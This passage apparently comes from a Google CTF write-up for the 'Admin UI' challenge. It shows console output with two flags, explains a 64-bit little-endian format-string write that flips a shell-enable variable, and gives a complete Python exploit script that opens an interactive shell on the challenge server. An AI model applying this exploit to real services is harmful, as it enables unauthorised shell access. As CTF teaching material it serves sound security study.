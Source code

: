 ```console
root@kali:~/Google-CTF/Admin UI# python test.py 
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1

Please enter the backdoo^Wservice password
CTF{I_luv_buggy_sOFtware}
:
! Two factor authentication required !
Please enter secret secondary password
CTF{Two_PasSworDz_Better_th4n_1_k?}
:
Authenticated

>
 A4847464544ABCDEFGH
>
[*] Closed connection to mngmnt-iface.ctfcompetition.com port 1337
```

From the output, notice that  `4847464544` or `HGFED` in hex appear. This will be the region where we will store the memory address for the `_ZL13shell_enabled` function.

For the final script, we will replace the first `A` character in the `buff` variable with `1`, since we want to evaluate the shell enable function to `True` and will replace everything after the `C` character with the memory address.

Note that this since this is a 64-bit application, we need to pass the full memory address of `0x0000000041616138`, and since x86 and x64 architectures use [little endian](https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html), we will have to write the memory address backwards as seen in the script.

As a side note, I updated the exploit script to use [telenetlib](https://docs.python.org/2/library/telnetlib.html) because I was having issues getting a shell using the [pwntools](https://github.com/Gallopsled/pwntools) library.

The final exploit script is show below:

```python
import socket
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("mngmnt-iface.ctfcompetition.com", 1337))
print s.recv(1000)

s.send("1\n")
print s.recv(1000)

s.send("CTF{I_luv_buggy_sOFtware}\n")
print s.recv(1000)

s.send("CTF{Two_PasSworDz_Better_th4n_1_k?}\n")
print s.recv(1000)

buff  = "echo 1%40$llnABC\x38\x61\x61\x41\x00\x00\x00\x00\n"
s.send(buff)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
